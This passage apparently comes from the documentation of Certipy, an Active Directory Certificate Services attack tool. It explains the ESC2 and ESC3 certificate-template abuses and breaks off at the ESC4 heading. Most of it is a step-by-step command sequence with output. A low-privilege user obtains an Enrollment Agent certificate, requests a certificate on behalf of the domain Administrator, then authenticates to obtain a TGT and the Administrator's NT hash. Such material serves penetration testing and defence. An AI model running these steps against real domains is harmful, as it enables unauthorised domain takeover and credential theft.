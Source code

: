 ESC2 is when a certificate template can be used for any purpose. Since the certificate can be used for any purpose, it can be used for the same technique as with ESC3 for most certificate templates. See below.

#### ESC3

ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users.

First, we must request a certificate based on the vulnerable certificate template ESC3.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -template ESC3-Test
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 781
[*] Got certificate with UPN 'JOHN@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-1103'
[*] Saved certificate and private key to 'john.pfx'
```

We can then use the Certificate Request Agent certificate (`-pfx`) to request a certificate on behalf of other another user by specifying the `-on-behalf-of`. The `-on-behalf-of` parameter value must be in the form of `domain\user`, and not the FQDN of the domain, i.e. `corp` rather than `corp.local`.

```bash
$ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -template User -on-behalf-of 'corp\Administrator' -pfx john.pfx
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 782
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
[*] Saved certificate and private key to 'administrator.pfx'
```

And finally, we can use the new certificate to authenticate as `corp\Administrator`.

```bash
$ certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```

#### ESC4
